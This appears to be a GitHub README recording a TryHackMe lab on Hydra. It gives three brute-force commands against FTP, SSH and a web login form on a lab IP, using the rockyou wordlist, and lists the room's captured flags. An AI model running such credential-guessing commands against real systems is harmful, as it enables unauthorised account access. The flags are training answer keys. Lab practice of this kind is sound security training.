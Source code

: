 ## 🛡️ TryHackMe Room - Hydra Brute-Force

My hands-on experience using **Hydra**, a powerful tool for brute-forcing credentials across multiple protocols. This project highlights my ability to analyze login mechanisms, craft attack strategies, and extract flags from deployed machines.

---

### 🔧 Tools & Environment

- **Hydra** – Network login cracker
- **rockyou.txt** – Popular password wordlist
- **Linux CLI** – Command-line execution
- **Browser Dev Tools** – For inspecting web form requests
- **Target IP** – `10.10.112.60`

---

### ⚔️ Attack Scenarios

#### 1️⃣ FTP Brute Force

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt ftp://10.10.112.60
```

- Protocol: FTP
- Username: `molly`
- Wordlist: `rockyou.txt`

#### 2️⃣ SSH Brute Force

```bash
hydra -l molly -P passwords.txt 10.10.112.60 -t 4 ssh
```

- Protocol: SSH
- Username: `molly`
- Threads: 4
- Wordlist: `passwords.txt`

#### 3️⃣ Web Form (POST) Brute Force

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.112.60 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- Protocol: HTTP POST
- Login page: `/`
- Failure string: `F=incorrect`
- Verbose output enabled

---

### 🏁 Flags Captured

| Target | Method | Flag |
|--------|--------|------|
| Molly's Web Login | HTTP POST Form | `THM{2673a7dd116de68e85c48ec0b1f2612e}` |
| Molly's SSH Login | SSH Protocol | `THM{c8eeb0468febbadea859baeb33b2541b}` |

---

### 📚 Key Takeaways

- Hydra supports multiple protocols including FTP, SSH, and HTTP
- Understanding form structure and failure responses is critical for web brute-forcing
- Threading (`-t`) improves speed but must be balanced with server load
- Using verbose mode (`-V`) helps monitor progress and debug issues

---

### 🚀 Future Goals

- Automate brute-force workflows with Bash scripting
- Integrate Hydra with reporting tools for audit logs
- Explore advanced Hydra modules and plugins

---

### 🤝 Let’s Connect

If you're working on similar red team or penetration testing projects, feel free to fork this repo, share feedback, or collaborate!

